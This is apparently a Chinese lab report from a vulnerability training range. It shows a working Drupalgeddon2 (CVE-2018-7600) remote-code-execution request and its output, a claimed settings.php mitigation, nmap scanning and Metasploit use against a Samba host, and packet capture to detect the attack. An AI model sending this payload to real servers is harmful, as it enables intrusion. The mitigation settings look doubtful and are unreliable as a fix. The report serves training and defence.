

# 入口靶标漏洞缓解

## 漏洞利用

对入口靶标进行攻击：
启动容器 vulfocus/drupal-cve_2018_7600 ，打开网页以后进行抓包，发送
```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 192.168.56.119:37124
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```
得到回复：
```
HTTP/1.1 200 OK
Date: Wed, 21 May 2025 05:26:04 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.19
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
X-Drupal-Ajax-Token: 1
Content-Length: 209
Content-Type: application/json

[{"command":"insert","method":"replaceWith","selector":null,"data":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]
```
返回结果中包含www-data用户权限信息，证明命令执行成功


## 漏洞修复

临时缓解措施：
禁用用户注册和危险路由

### 编辑Drupal的settings.php文件
```
nano /var/www/html/sites/default/settings.php
```
在文件末尾添加以下内容：

```php
// 禁用用户注册
$config['user.settings']['register'] = 'admin_only';
// 关闭AJAX表单漏洞入口
$config['system.performance']['fast_404']['exclude_ajax_paths'] = TRUE;
```
以此来拦截恶意请求特征（如 `element_parents` 参数）。


### 重启Web服务：

Apache
```
sudo systemctl restart apache2
```

得到响应：
```
HTTP/1.1 403 Forbidden
Date: Wed, 21 May 2025 06:17:02 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.19
Cache-Control: must-revalidate, no-cache, private
X-UA-Compatible: IE=edge
Content-language: en
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Expires: Sun, 19 Nov 1978 05:00:00 GMT
X-Generator: Drupal 8 (https://www.drupal.org)
Content-Length: 2
Content-Type: application/json

{}
```


可以看到，漏洞得到了缓解。
添加的防护措施（`settings.php` 修改 + Apache 规则）已成功拦截攻击请求，Drupal 不再处理包含恶意参数（如 `element_parents`、`ajax_form`）的请求，返回空 JSON `{}` 和 403 状态码。
并且登录网页可以看到界面发生了变化：


# 第三层漏洞利用和检测

尝试扫描10.10.10.0/24网段：

nmap扫描
```
nmap -Pn 10.10.10.0/24 -p 445
```

可以发现，10.10.10.2端口是open状态。于是对它进行进一步分析，确认Samba版本：
```
nmap -Pn 10.10.10.2 -p 445 --script smb-protocols
```
根据Nmap脚本扫描结果，目标主机10.10.10.2的Samba服务支持SMBv1（包括危险的NT LM 0.12）以及更高版本的SMBv2/3协议。这为利用CVE-2017-7494（Samba远程代码执行漏洞）提供了直接条件。

使用Metasploit自动化利用：

启动交互式 shell：
```
script /dev/null -c bash
```

查看flag


查看系统信息
```
cat /etc/os-release
```


## 攻击检测

在攻击开始前，开启监听
```
sudo tcpdump -i br-34e6724ef976 port 445 -w samba_attack.pcap
```


tshark查看攻击ip来源

```
tshark -r samba_attack,pcap -Y "smb2" -T fields -e ip.src | sort | uniq
```


确认攻击源IP为10.10.10.1（内网横向移动迹象）

查看抓到的pcap包，可以看到攻击者执行的指令以及受害者做出的回复：


可用frame contains "xxx"查看包含某些关键词的操作，比如查看可疑写入行为：
